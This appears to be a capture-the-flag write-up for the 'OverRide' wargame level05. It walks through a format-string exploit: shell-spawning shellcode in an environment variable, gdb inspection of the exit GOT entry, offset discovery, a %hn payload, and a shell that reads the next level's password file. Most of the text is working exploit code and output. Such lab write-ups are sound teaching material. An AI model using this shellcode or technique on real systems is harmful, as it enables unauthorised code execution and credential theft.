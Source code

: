 # level05

Based on the [source code](./source.c), we'll perform a *format string attack* on an unprotected `printf` call.
To avoid complications from the XOR operations in the code, we'll store our shellcode in an environment variable and overwrite the `exit@plt` address with its location.

The PLT entry for `exit` is actually a pointer to a pointer. Let’s inspect it:

```bash
(gdb)  info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
...
0x08048370  exit@plt
...
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
```

We'll set an environment variable named `SC`, containing a NOP sled followed by shellcode:

```bash
export SC=$(python -c 'print("\x90" * 1000 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80")')
```

Let's locate it in memory — any address in the NOP sled is usable (e.g., `0xffffdc59`):

```bash
(gdb) x/200s environ
...
0xffffdb1e:      "SC=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
...
0xffffdf06:      "\220\220\220j\vX\231Rh//shh/bin\211\343\061\311̀"
...
```

We need to determine which argument index corresponds to our input:

```bash
level05@OverRide:~$ for ((i = 1; i < 42; i++)); do echo "AAAA $i %$i\$p" | ./level05; done
...
aaaa 10 0x61616161
...
```

We want to overwrite the pointer at `0x080497e0`` with the address of our shellcode:`0xffffdc59`
We’ll write this using two half-word (%hn) writes, targeting:

- `0x080497e0` → to write the lower 2 bytes: 0xdc59 → 56409
- `0x080497e2` → to write the upper 2 bytes: 0xffff → 65535

Now, account for the 8 bytes taken up by the addresses at the beginning of the payload:
56409 - 8 = 56401   ← first padding
65535 - 56409 = 9126  ← second padding

We construct the format string:

```bash
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56401c" + "%10$hn" + "%9126c" + "%11$hn"'; cat) | ./level05

```

Let's get the flag:

```bash
(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56401d"+"%10$hn"+"%9126d"+"%11$hn"';cat) | ./level05
whoami
level06
cat /home/users/level06/.pass
<flag>
```
